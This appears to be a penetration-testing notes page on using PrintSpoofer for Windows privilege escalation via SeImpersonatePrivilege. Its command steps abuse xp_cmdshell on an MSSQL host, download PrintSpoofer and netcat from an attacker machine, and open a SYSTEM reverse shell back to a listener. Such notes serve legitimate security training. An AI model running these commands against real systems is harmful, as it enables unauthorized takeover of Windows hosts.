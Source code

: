 ```yaml
---
title: PrintSpoofer
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - privilege
  - SeImpersonatePrivilege
---
```

# 🖨️ PrintSpoofer

!!! tip "Kernel exploits"
	- [Windows kernel exploits](windows-kernel-exploits.md)
	- [Linux kernel exploits](linux-kernel-exploits.md)


 [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage `NT AUTHORITY\SYSTEM` level access on Windows Server 2019 and Windows 10 build 1809 onwards when the  command `whoami /priv` confirms that [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) is listed. 

Download from: [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)

**1.** Spawn a SYSTEM process on a desktop or catch a reverse shell. For instance, let's imagine that we have access with

```
mssqlclient.py sql_dev@10.129.43.43 -windows-auth
```

And that our user has the SeImpersonatePrivilege  listed when running:

```
enable_xp_cmdshell
xp_cmdshell whoami /priv
```

**2.** Download the PrintSpoofer64.exe file from kali to the host

```
# from a different kali terminal locate the file and then
python3 -m http.server 80

# From the terminal with the mssql connection, upload PrintSpoofer64.exe and nc.exe
xp_cmdshell "powershell -c cd C:\Tools; wget http://IPfromOurKali/PrintSpoofer64.exe -outfile PrintSpoofer64.exe"
xp_cmdshell "powershell -c cd C:\Tools; wget http://IPfromOurKali/nc64.exe -outfile nc64.exe"
```

**3.** Set a listener in the kali and execute it from the host:

```
# Set a listener from the kali machine
nc -lnvp 1234

# Execute the PrintSpoofer
xp_cmdshell "powershell -c cd C:\Tools; .\PrintSpoofer64.exe
 -c "C:\Users\Public\Documents\nc64.exe  $IPfromOurKali 1234 -e cmd"
```